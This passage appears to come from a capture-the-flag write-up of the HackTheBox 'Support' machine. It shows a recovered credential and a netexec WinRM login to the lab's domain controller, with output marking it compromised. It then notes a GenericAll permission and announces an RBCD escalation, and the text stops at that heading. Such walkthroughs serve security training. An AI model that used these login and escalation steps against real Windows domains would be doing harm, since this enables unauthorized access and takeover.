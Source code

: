 `support:Ironside47pleasure40Watchful`

The creds work.

```bash
netexec winrm 10.10.11.174 -u 'support' -p 'Ironside47pleasure40Watchful'                                   
WINRM       10.10.11.174    5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:support.htb)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.10.11.174    5985   DC               [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)
```

We can get user flag.

## Privilege Escalation

### Bloodhound

Support user has GenericAll on DC.

![alt text](/assets/images/Support-GenericAll.png)

We have 2 paths from here, RBCD or Shadow Credentials attack.

Our goal is privilege escalation, we will go with RBCD.

### RBCD
